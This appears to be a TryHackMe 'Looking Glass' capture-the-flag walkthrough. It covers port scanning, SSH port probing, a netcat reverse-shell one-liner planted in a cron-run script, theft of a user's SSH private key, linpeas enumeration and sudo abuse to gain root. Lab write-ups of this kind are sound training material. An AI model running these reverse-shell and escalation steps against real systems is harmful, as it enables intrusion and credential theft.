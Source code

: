# Looking Glass

**Room Link:** [https://tryhackme.com/room/lookingglass](https://tryhackme.com/room/lookingglass)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (651).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (652).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (653).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (654).png" alt=""><figcaption></figcaption></figure>

## Scan all ports

Same as the first scan, a lot of ssh ports open

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



## TCP/22 - SSH

**Kali**

<figure><img src="../../.gitbook/assets/image (655).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nmap -A $VICTIM -oN results.txt
grep -oE '^[0-9]+/' results.txt > num.txt
cat num.txt
```

<figure><img src="../../.gitbook/assets/image (656).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
cat num.txt |  tr -d '\n' | sed 's/\//,/g' | tr -d ' '
```

<figure><img src="../../.gitbook/assets/image (658).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
for port in 9000 9001 9002 9003 9009 9010 9011 9040 9050 9071 9080 9081 9090 9091 9099 9100 9101 9102 9103 9110 9111 9200 9207 9220 9290 9415 9418 9485 9500 9502 9503 9535 9575 9593 9594 9595 9618 9666 9876 9877 9878 9898 9900 9917 9929 9943 9944 9968 9998 9999 10000 10001 10002 10003 10004 10009 10010 10012 10024 10025 10082 10180 10215 10243 10566 10616 10617 10621 10626 10628 10629 10778 11110 11111 11967 12000 12174 12265 12345 13456 13722 13782 13783; do
    echo "connecting to port $port"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $port test@$VICTIM;done 
```



<figure><img src="../../.gitbook/assets/image (659).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
for i in $(seq 12345 13465); do echo "connecting to port $i"; ssh -o 'LogLevel=ERROR' -o 'StrictHostKeyChecking=no' -p $i $VICTIM;done | grep -vE 'Lower|Higher'
```

<figure><img src="../../.gitbook/assets/image (660).png" alt=""><figcaption></figcaption></figure>

```
Key: thealphabetcipher
```

<figure><img src="../../.gitbook/assets/image (661).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (662).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh $VICTIM -p 12350
Password: bewareTheJabberwock
```

<figure><img src="../../.gitbook/assets/image (663).png" alt=""><figcaption></figcaption></figure>

## **Initial Access**

**Kali**

<pre><code><strong>ssh jabberwock@$VICTIM 
</strong>Password: PlaceThanksSelfishGrinned
</code></pre>



**Victim**

<pre><code><strong>sudo -l
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cat /etc/crontab
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

<pre><code><strong>cd /home/jabberwock
</strong><strong>vi twasBrillig.sh
</strong></code></pre>

**twasBrillig.sh**

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc $KALI 1337 >/tmp/f
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1337
```



**Victim**

<pre><code><strong>sudo /sbin/reboot
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim(tweedledee)**

<pre><code><strong>cd /home/tweedledee
</strong><strong>cat humptydumpty.txt 
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledee)**

<pre><code><strong>sudo -l
</strong>sudo -u tweedledum /bin/bash 
</code></pre>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledum)**

<pre><code><strong>cd /home/tweedledum/
</strong>cat humptydumpty.txt 
</code></pre>

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(tweedledum)**

<pre><code><strong>su humptydumpty
</strong><strong>Password: zyxwvutsrqponmlk
</strong></code></pre>

I can get into alice's folder but I can't actually ls and see files, but I tried looking at files that are usually there and I found her id\_rsa key.

**Victim(humptydumpty)**

<pre><code><strong>cd /home/alice
</strong><strong>cat .ssh/id_rsa
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Copy key to Kali

**Kali**

```
chmod 600 id_rsa 
ssh alice@$VICTIM -i id_rsa
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

### LinPeas

**Kali**

```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
python2 -m SimpleHTTPServer 81
```

**Victim(alice)**

```
cd /tmp/
wget http://$KALI:81/linpeas.sh
chmod +x linpeas.sh 
./linpeas.sh
```



<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim(alice)**

```
cat /etc/sudoers.d/alice 
sudo -h ssalg-gnikool -l
sudo -h ssalg-gnikool /bin/bash
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


